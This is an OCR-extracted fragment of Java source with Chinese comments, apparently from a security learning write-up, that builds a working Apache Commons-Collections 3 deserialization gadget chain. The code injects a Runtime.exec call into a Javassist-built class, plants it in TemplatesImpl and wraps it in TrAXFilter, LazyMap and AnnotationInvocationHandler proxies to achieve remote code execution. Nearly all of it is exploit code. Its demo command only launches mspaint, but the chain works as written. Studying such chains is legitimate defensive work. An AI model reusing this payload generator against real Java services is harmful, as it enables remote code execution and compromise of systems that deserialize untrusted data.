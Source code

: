 	        CtClass placeholder = classPool.get(CC3.Placeholder.class.getName());
	        placeholder.setSuperclass(classPool.get(Class.forName(abstractTransletClassPath).getName()));
	        // 这里insertBefore还是After都一样，反正都是在静态初始化块里写代码
	        placeholder.makeClassInitializer().insertBefore("java.lang.Runtime.getRuntime().exec(\"mspaint\");");
	        placeholder.setName("EvalClass");
	        // 得到恶意类的字节码
	        byte[] evalByte = placeholder.toBytecode();
	
	        // 实例化TemplatesImpl对象,并将恶意字节码植入
	        TemplatesImpl templates = new TemplatesImpl();
	        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
	        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
	        bytecodes.setAccessible(true);
	        bytecodes.set(templates,new byte[][]{evalByte});
	        Field name = templatesClass.getDeclaredField("_name");
	        name.setAccessible(true);
	        name.set(templates,"p1n93r");


​	
	        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
	                new ConstantTransformer(1)
	        });
	
	        // 真正的RCE执行链，调用TrAXFilter构造器时，会调用TemplatesImpl#newTransformer()，之后就是和CC2一样了
	        Transformer[] trueTransformer = {
	                new ConstantTransformer(TrAXFilter.class),
	                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
	        };
	
	        // 仍旧使用LazyMap即可
	        HashMap<Object, Object> hashMap = new HashMap<>();
	        Map evalMap = LazyMap.decorate(hashMap, chainedTransformer);
	
	        // 创建AnnotationInvocationHandler对象，封装lazyMap
	        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
	        Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
	        constructor.setAccessible(true);
	        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, evalMap);
	
	        // 得到代理Map
	        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
	
	        // 再次创建AnnotationInvocationHandler对象，封装proxyMap
	        InvocationHandler res = (InvocationHandler) constructor.newInstance(Retention.class, proxyMap);
	
	        // 最后再将真正的transformer chain传入,防止反序列化之前在攻击机中就执行了命令
	        Class<? extends Transformer> chainClass = chainedTransformer.getClass();
	        Field iTransformers = chainClass.getDeclaredField("iTransformers");
	        iTransformers.setAccessible(true);
	        iTransformers.set(chainedTransformer,trueTransformer);
	        return res;
	    }
	